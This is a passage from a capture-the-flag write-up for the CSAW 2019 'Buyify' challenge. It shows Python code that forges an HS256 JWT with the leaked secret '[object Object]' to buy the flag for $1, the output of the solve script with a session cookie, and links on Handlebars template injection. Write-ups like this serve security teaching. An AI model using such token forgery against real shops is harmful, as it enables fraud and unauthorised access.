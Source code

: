 ### Win the lottery
So now, the last missing piece is to forge a valid `token` with `[object Object]` as a key and `flag.flag` as an id.

```py
# Forge flag token
flag_token = jwt.encode({
    "id": "flag.flag",
    "price": 1,
    "iat": 1568568228
  }, '[object Object]', algorithm='HS256')

```

Then using it to purchase the flag for `$1` in our store. 

I automated the process with [solve.py] where I briefly described each step. By executing the exploit I got the flag **flag{npm_devs_are_pretty_bad_at_fixing_bugs}**

```sh
$ python solve.py
('store_id:', 'fedeb307e6104baf')
('connect.sid:', 's%3A1vs4vfSD3GEal8dD2lGuRAJgtUk2XIO0.m%2BE252u74l2ffXB1fOAuNPu1awVwzANQmg9KLqOfWmk')
Congrats! Your flag is flag{npm_devs_are_pretty_bad_at_fixing_bugs}!
```

[CSAW 2019 (Quals)]:<https://ctftime.org/event/870>
[@itszn13]:<https://twitter.com/itszn13>
[website]:<https://github.com/terjanq/Flag-Capture/tree/master/CSAW%20CTF%20Qualification%20Round%202019/buyify>
[handlebars]:<https://handlebarsjs.com/>
[Handlebars template injection and RCE in a Shopify app]:<http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html>
[store.js]:<./store.js>
[server.js]:<./server.js>
[helper functions]:<https://handlebars-draft.knappi.org/guide/block-helpers.html>
[setter]:<https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Functions/set>
[getter]:<https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Functions/get>
[\_\_defineSetter\_\_]:<https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/__defineSetter__>
[\_\_defineGetter\_\_]:<https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Object/__defineGetter__>
[solve.py]:<./solve.py>
[Buyify]:<>
[@terjanq]:<https://twitter.com/terjanq>
[files]:<./buyify.tar.gz>
[Server-side Template Injection]:<https://portswigger.net/blog/server-side-template-injection>
[#with]:<https://handlebars-draft.knappi.org/guide/block-helpers.html#the-with-helper>
[JSON Web Token]:<https://jwt.io/>